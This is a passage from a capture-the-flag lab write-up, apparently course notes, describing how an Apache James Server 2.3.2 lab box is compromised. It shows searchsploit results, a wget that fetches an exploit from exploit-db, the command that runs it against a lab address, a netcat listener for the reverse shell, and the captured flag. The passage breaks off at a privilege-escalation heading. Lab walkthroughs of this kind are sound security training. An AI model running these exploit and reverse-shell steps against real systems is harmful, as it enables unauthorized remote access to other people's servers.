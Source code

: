 - or `searchsploit "apache 2.3.2"

```Bash
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin R | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Co | php/remote/29316.py
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of | multiple/dos/26710.txt
Apache James Server 2.3.2 - Insecure User C | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command  | linux/remote/35513.py
```

Pulling the exaploit
```Bash
┌──(edward㉿kali)-[~/course-notes/Evolve/Evolve Labs/Indiana James]
└─$ wget -O james.py https://www.exploit-db.com/raw/50347
```
Upload the exploit
```Bash
┌──(edward㉿kali)-[~/course-notes/Evolve/Evolve Labs/Indiana James]
└─$ python3 james.py $b 10.50.131.180 31337 
```

Catch the reverse shell with this up first
```Bash
nc -lvnp 31337
```

Will get a user in about a minute as "isabel" with the first flag. 

```
isbel@ip-10-50-144-129:~$ whoami
whoami
isbel
isbel@ip-10-50-144-129:~$ ls
ls
flag.txt
isbel@ip-10-50-144-129:~$ cat flag.txt  
cat flag.txt
__   _____  _   _   ____ ___ ____    ___ _____ _ 
\ \ / / _ \| | | | |  _ \_ _|  _ \  |_ _|_   _| |
 \ V / | | | | | | | | | | || | | |  | |  | | | |
  | || |_| | |_| | | |_| | || |_| |  | |  | | |_|
  |_| \___/ \___/  |____/___|____/  |___| |_| (_)


FLAG{3453dwie28edqd0r4ufwnorofe5r3}

---- KUDOS from Evolve Academy ...  
```


### Privesc
